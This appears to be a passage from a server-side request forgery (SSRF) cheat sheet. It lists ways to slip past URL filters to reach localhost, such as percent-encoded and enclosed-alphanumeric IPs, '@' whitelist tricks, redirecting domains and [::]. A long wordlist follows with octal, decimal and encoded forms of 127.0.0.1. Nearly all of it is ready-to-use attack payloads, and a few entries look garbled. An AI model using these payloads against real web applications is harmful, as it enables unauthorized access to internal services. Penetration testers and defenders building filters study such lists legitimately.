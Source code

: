 -> URL encoding  
e.g.  
`http://%31%32%37%2e%30%2e%30%2e%31`

-> Enclosed alphanumerics  
```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④
http://①②⑦。①
```
-> Bash variables  
e.g.  
`http://evil.$site.com`

-> Bypass of whitelist  
e.g.  
`http://site.com@127.0.0.1`

-> Domain redirection  
e.g.  
`http://localtest.me`

-> Using [::]  
e.g.  
`http://[::]`

### Wordlist for localhost bypass
```
0o177.0.0.1
%30%6f%31%37%37%2e%30%2e%30%2e%31
http://%30%6f%31%37%37%2e%30%2e%30%2e%31
http://①②⑦。①
①②⑦。①
%60%61%66%02%60
%68%74%74%70%3a%2f%2f%60%61%66%02%60
http://0o177.0.0.1
q177.0.0.1
%71%31%37%37%2e%30%2e%30%2e%31
http://%71%31%37%37%2e%30%2e%30%2e%31
http://q177.0.0.1
o177.0.0.1
%6f%31%37%37%2e%30%2e%30%2e%31
http://%6f%31%37%37%2e%30%2e%30%2e%31
http://o177.0.0.1
0177.0.0.1
%30%31%37%37%2e%30%2e%30%2e%31
http://%30%31%37%37%2e%30%2e%30%2e%31
http://0177.0.0.1
2130706433
%32%31%33%30%37%30%36%34%33%33
http://%32%31%33%30%37%30%36%34%33%33
http://2130706433
127.0.0.0
%31%32%37%2e%30%2e%30%2e%30
http://%31%32%37%2e%30%2e%30%2e%30
http://127.0.0.0
127.0.1.3
%31%32%37%2e%30%2e%31%2e%33
http://%31%32%37%2e%30%2e%31%2e%33
http://127.0.1.3
127.127.127.127
%31%32%37%2e%31%32%37%2e%31%32%37%2e%31%32%37
http://%31%32%37%2e%31%32%37%2e%31%32%37%2e%31%32%37
http://127.127.127.127
[::]
http://[::]
0
```